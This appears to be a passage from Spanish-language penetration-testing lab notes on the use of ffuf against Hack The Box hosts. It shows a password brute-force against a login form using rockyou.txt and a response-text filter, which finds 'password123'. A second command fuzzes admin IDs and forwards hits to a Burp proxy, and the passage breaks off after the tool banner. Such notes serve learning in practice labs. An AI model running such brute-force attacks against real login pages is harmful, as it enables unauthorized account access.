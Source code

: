 ```
 :: Header           : Host: nineveh.htb
 :: Header           : Sec-Ch-Ua-Mobile: ?0
 :: Header           : Sec-Ch-Ua-Platform: "Linux"
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Priority: u=0, i
 :: Header           : Cache-Control: max-age=0
 :: Header           : Sec-Ch-Ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
 :: Header           : Origin: https://nineveh.htb
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Cookie: PHPSESSID=sa5uto3l08mtbrsr8nsb3re1d7
 :: Data             : password=FUZZ&remember=yes&login=Log+In&proc_login=true
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect
________________________________________________

password123             [Status: 200, Size: 13949, Words: 641, Lines: 484, Duration: 153ms]
```

> Esto indica que password123 es una contraseña válida, porque su respuesta fue distinta a las demás (no contenía el texto “Incorrect”).

El ffuf ejecutado funciona de la siguiente manera:

* -w rockyou.txt → cada línea del diccionario reemplaza a FUZZ en la petición, probando miles de contraseñas.

* -request requestdb.txt → se reutiliza la petición real interceptada (por ejemplo, desde BurpSuite) donde el parámetro password está marcado con FUZZ.

* -fr "Incorrect" → se descartan todas las respuestas que contengan la palabra "Incorrect", típica de un mensaje de error al fallar un login.

* -k → permite ignorar problemas de certificados HTTPS.

De este modo, en lugar de fijarse en tamaños o códigos de estado, ffuf se centra en el contenido de la respuesta. Cuando aparece una contraseña válida, el servidor ya no muestra el mensaje "Incorrect", por lo que esa respuesta pasa el filtro y aparece destacada.


### Fuzzing con reenvío a BurpSuite

El parámetro ```-replay-proxy 'http://127.0.0.1:8080'``` indica a ffuf que reenvíe cualquier resultado que pase los filtros hacia un proxy en localhost:8080, normalmente BurpSuite.

```
┌──(root㉿nptg)-[/home/nptg/Documentos/HTB/Academy]
└─# ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:37504/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -replay-proxy 'http://127.0.0.1:8080' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
```